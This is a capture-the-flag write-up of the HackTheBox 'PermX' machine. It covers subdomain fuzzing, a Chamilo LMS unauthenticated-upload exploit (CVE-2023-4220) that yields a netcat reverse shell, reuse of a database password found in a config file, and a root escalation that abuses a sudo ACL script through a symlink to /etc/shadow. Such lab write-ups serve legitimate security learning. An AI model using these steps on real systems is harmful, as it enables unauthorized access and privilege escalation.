 ```yaml
---
title: 'HackTheBox: PermX'
date: 2024-10-04 14:18:00
author: w0rmhol3
categories: Write-Up
tags: CTF
cover: https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/Cover.png?raw=true
---
```

So, I haven’t been playing HTB for quite sometime, and I finally had some motivation (or mood) to try out some boxes. So here is my writeup for the `HTB seasonal machine: PermX`.<!--more-->

![PermX Box](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/PermX_Box.png?raw=true)

So, starting off, lets run nmap to look for the open ports.
```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ nmap -sC -sV -Pn 10.10.11.23 -o nmap-scan.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-11 09:24 EDT
Nmap scan report for 10.10.11.23
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directly we can see only 2 ports open (SSH and HTTP), so lets start going through the web to see what we can find.

![webpage](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/webpage.png?raw=true)

in short, this is some sort of an e-learning platform, nothing special from here, but this web took me quite some time to look around, fuzzing everything i can. and in the end, i decided maybe subdomain is worth to have a look as i don’t think there’s anything worth looking into from here. 

Using ffuf to enumerate it, i was able to found an interesting subdomain.

```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ ffuf -w /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SL/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 308ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 341ms]
:: Progress: [4989/4989] :: Job [1/1] :: 123 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```
`the ‘-fw 18’ is use to filter out the response size 18, as they are the ones that are invalid.`

As shown, the subdomain“lms.permx.htb” was found.

![chamilo](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/webpage2.png?raw=true)

 When i saw this page, instantly i went to google and look for existing CVE, in which i had found CVE-2023-4220: Chamilo LMS Unauthenticated Big Upload File Remote Code Execution. This vulnerability allows an unauthenticated attacker to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell.

 I found an [exploit script](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) from github that can automate this attack to gain reverse shell directly.

 So, using the script and running netcat, i was able to gain a reverse shell.

 ```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.23] 34572
bash: cannot set terminal process group (1169): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
 ```

And this is another part where I am stuck at, as this initial foothold does not comes with the user flag, I wrap my head around trying to figure out how to get to the user. So, what was needed to be done is to find a way to get mtz user account to get user.txt, then privilege escalate to root. It took me some time to figure out next is to find the config file.

```sh
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php
[snip]
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
[snip]
```

After taking my time enumerating the server, i found the configuration file that had led me to a credential.

So, I believe that the intentional method was to go through the sql database, and exploit from there, but when I found this credential, I instantly went and try to ssh into mtz account.

```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ ssh mtz@10.10.11.23                      
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
mtz@10.10.11.23's password: 

Last login: Thu Jul 11 13:32:46 2024 from 10.10.16.50
mtz@permx:~$ 
```

WALLA, mtz account. So from here just read the user.txt to get the user flag.

```sh
mtz@permx:~$ cat user.txt 
[flag]
```

So user✅ all left is the privilege escalation.

```sh
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```

when trying to see what mtz is able of executing i found this /opt/acl.sh file.

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This file is not writeable, and can only be executed, so from the looks of it, executing this file is the only way to get root. So from my own understanding, I can see that it can mess with the file’s ACL, but I did utilized chatgpt to help me correctly use this function 

The explanation of this code is that, the [acl.sh](http://acl.sh) file will be able to change the file permission, that are within /home/mtz directory. 

This brings me the thought of changing the root credentials to mtz credentials by allowing modification on the /etc/shadow file. But to do so, an extra step of creating a symlink of /etc/shadow file in the user directory to change the file permission.

```sh
mtz@permx:~$ ln -s /etc/shadow ./
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/shadow
mtz@permx:~$ nano shadow
```

Then all i need to do is go and modify root credentials within the shadow file.

```sh
root:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:9999>
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999>
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```

As you can see, i modified the root password hash to be as same as mtz’s hash, hence it replaces the password to get the root access in the system. All i need to do now, is become root.

```sh
mtz@permx:~$ su
Password: 
root@permx:
```

THERE, ROOT.

```sh
root@permx:/home/mtz# cat /root/root.txt
[flag]
```

user✅root✅Permx✅